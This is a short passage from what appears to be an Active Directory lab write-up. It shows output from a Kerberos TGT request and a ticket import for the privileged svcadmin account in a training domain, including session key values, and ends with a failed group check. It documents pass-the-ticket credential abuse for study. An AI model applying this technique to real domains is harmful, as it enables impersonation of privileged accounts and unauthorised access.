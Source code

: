 ```
[*] Target LUID : 21228568
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x143ec18
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/13/2025 12:59:56 AM
  EndTime                  :  2/13/2025 10:59:56 AM
  RenewTill                :  2/20/2025 12:59:56 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jkSjq92PAMd4qdKtBuUOHVTjm9BNiHX/080C89WMzn8=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```

![New spawned terminal process](./assets/screenshots/learning_objective_08_new_spawned_terminal_process.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌
